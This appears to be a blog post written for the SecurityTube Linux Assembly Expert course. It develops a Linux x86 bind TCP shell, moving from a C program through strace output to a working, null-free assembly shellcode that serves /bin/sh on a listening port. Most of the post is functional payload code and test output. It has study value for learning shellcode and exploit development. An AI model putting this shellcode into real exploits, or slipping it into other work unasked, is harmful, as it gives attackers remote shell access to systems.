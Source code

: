 ```yaml
---
title:  "[SLAE 1] Bind TCP Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Creating a basic bind TCP port shellcode

To create a bind TCP shellcode, I've first started with a small C program to do this and analysed the system calls. The following program listens for incoming connections and spawns a new shell: 
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int listenfd = 0, connfd = 0;    
    int ret = 0;
 
    struct sockaddr_in serv_addr;
 
    // Create an un-named socket. returns socket descriptor
    listenfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&serv_addr, '0', sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    serv_addr.sin_port = htons(4444);
 
    bind(listenfd, (struct sockaddr*) &serv_addr, sizeof(serv_addr));
 
    // Listen on the created socket for maximum 1 client connection
    listen(listenfd, 1);
 
    // Sleep waiting for client requests
    connfd = accept(listenfd, (struct sockaddr*) NULL, NULL);
    printf("Created accept socket: %d\n", connfd);
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(connfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(connfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(connfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}
We can test and see we get a shell: 
?
1
2
3
4
5
6
7
8
$ gcc -Wall shell_bind_tcp.c -o shell_bind_tcp
$ ./shell_bind_tcp  &
[1] 4528
$ nc -nvv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
Created accept socket: 4
whoami
liv
We can then analyse the system calls necessary to bind the socket, listen for connections and execute the shell: 
?
1
2
3
4
5
6
7
8
9
10
$ strace ./shell_bind_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 1)                            = 0
accept(3, 0, NULL)                      = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0

The next step is to reproduce these system calls in assembly and get the shellcode:
; SLAE - Assignment 1
;
; Shell Bind TCP
;

global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = listenfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; listenfd is returned in eax. Save into edx    

    ; 2. bind(listenfd, {sa_family=AF_INET, sin_port=htons(4444), \
    ;       sin_addr=inet_addr("0.0.0.0")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    xor ecx, ecx    ; Construct sockaddr structure on the stack
    push ecx        ; inet_addr - 0.0.0.0 - INADDR_ANY
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; listenfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 2       ; socketcall type of call: SYS_BIND (2)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. listen(listenfd, 1)
    push 1          ; max connections
    push edx        ; listenfd
    mov ecx, esp    ; pointer to socketcall arguments
    push 4
    pop ebx         ; SYS_LISTEN (4)
    push 102
    pop eax         ; socketcall syscall
    int 0x80
 
    ; 4. accept(listenfd, 0, NULL) = connfd
    xor ecx, ecx
    push ecx        ; NULL
    push ecx        ; 0
    push edx        ; listenfd
    mov ecx, esp    ; pointer to socketcall arguments
    push 5
    pop ebx         ; SYS_ACCEPT = 5
    push 102
    pop eax         ; socketcall syscall
    int 0x80        ; connfd will be in eax
    mov edx, eax    ; save new connection descriptor

    ; 5. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 6. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80


To make the port number easily configurable, I've made a bash wrapper, which replaces PORT with a command line argument and then assembles and links the asm source


##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
